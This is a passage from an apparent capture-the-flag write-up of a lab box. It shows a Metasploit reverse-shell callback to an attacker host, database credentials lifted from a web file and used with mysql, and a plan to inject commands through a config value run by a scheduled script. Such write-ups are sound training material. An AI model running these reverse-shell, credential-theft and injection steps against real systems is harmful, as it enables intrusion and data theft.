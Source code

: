 I get a meterpreter session a few seconds after.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.23:80
[*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.14.23:80 -> 10.10.10.126:47394) at 2019-04-15 02:18:34 -0400

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: www-data (33)
```

The first thing I do once I have a shell is check if I can access `user.txt` but the `/home/guly` directory isn't readble by `www-data`. Next I grab the MySQL credentials from `/var/www/html/index.php`:

```
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
```

I don't have an interactive TTY so I have to issue queries directly from the shell.

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e -e "show tables" neddy

Tables_in_neddy
config
customers
employees
filepath
idname
offices
orderdetails
orders
payments
productlines
products
```

### Escalating to a new shell as user guly

I thought about that `checkrelease` parameter in the `config` table I saw earlier. It currently contains `/home/guly/checkbase.pl;/home/guly/checkplugins.pl;` so I guess that this may be a script running at specific interval. I have access to the database so I can change this value.
